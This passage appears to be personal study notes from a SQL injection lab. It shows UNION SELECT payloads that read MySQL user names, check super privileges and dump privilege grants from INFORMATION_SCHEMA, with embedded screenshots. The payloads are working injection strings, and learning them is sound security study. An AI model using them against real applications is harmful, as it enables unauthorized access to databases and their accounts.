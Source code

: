 `cn' UNION SELECT 1, user, 3, 4 FROM mysql.user-- `

![](Images/Pasted%20image%2020240129183508.png)

### User privileges

we can first check if we have super admin privileges with: 

`SELECT super_priv FROM mysql.user`

`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user`

if we have many users we can also add `WHERE user="user"`

![](Images/Pasted%20image%2020240129183725.png)

Y = YES showing that we do have super privileges 

we can also dump other privileges we have directly from the schema: 

`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM INFORMATION_SCHEMA.USER_PRIVILEGES-- `

we could also add `WHERE grantee="'root'@'localhost'"`
